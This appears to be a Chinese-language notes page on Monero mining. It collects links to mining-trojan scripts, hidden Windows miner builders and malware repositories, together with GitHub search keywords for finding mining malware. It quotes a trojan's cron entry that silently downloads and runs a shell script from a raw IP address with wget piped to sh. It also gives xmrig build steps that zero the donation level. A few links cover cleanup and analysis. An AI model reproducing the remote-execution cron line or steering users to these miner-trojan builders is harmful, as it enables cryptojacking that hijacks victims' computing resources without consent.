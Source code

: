 ```
    },
    "user-agent": null,
    "verbose": 0,
    "watch": true
}

```

可以采用CPU,GPU或者CUDA进行挖矿.

## 挖矿木马

1. 门罗币木马脚本： <https://yq.aliyun.com/articles/637475>
2. 挖矿木马脚本： <https://pastebin.com/X2EK5LXb>
3. 挖矿木马手机脚本: <https://github.com/MinervaLabsResearch/BlogPosts/blob/master/MinerKiller/MinerKiller.sh>
4. 简易挖矿木马脚本： <https://www.jianshu.com/p/30ca626c9e3a>
5. xrmig一键脚本： <https://github.com/seanwhe/xmrig-bash-scripts> , <https://github.com/thequietman44/xmrig-scripts/>

发现木马反复执行一个定时任务`crontab -e`：

```
# -q 静默模式， -O - 代表输出到对应的文件 /dev/null中，这个文件是一个空包
* * * * * wget -q -O - http://195.3.146.118/sc.sh | sh > /dev/null 2>&1
```

wget下载脚本，然后运行脚本自动删除脚本: `wget http://sitehere.com/install.sh -O - | sh`

### 木马脚本

Windows平台木马： <https://github.com/NYAN-x-CAT/Lime-Miner>

Windows强力病毒： <https://github.com/hawksh/Hidden-miner-builder>

Windows挖矿提高脚本: <https://github.com/DeadManWalkingTO/Windows10MiningTweaksDmW>

### Github搜索病毒

关键字: xmr mining shell, mining malware,Xmrig Miner Malware

### 病毒脚本

1. 脚本参考： <https://github.com/MoneroOcean/xmrig_setup>
2. 脚本搜索目录： <https://github.com/search?l=Shell&p=2&q=.%2Fxmrig&type=Code>
3. 病毒清理脚本： <https://github.com/MoreSecLab/DDG_MalWare_Clean_Tool/blob/master/clear.sh>
4. xbash病毒脚本: <https://www.freebuf.com/articles/terminal/185106.html>, <https://github.com/h3ct0rjs/XBash-malware-files>

```shell
# 以下是安装脚本，可以先编译好不用执行如下脚本
# 下载
sudo apt install -y software-properties-common git build-essential cmake libuv1-dev libssl-dev libmicrohttpd-dev libhwloc-dev gcc g++ 
git clone https://github.com/xmrig/xmrig.git
# 设置抽水比率
cd xmrig
sed -i 's/kDefaultDonateLevel =.*/kDefaultDonateLevel = 0;/' src/donate.h
sed -i 's/kMinimumDonateLevel =.*/kMinimumDonateLevel = 0;/' src/donate.h
# 创建编译目录
mkdir build && cd build
cmake ..
make -j$(nproc)


````
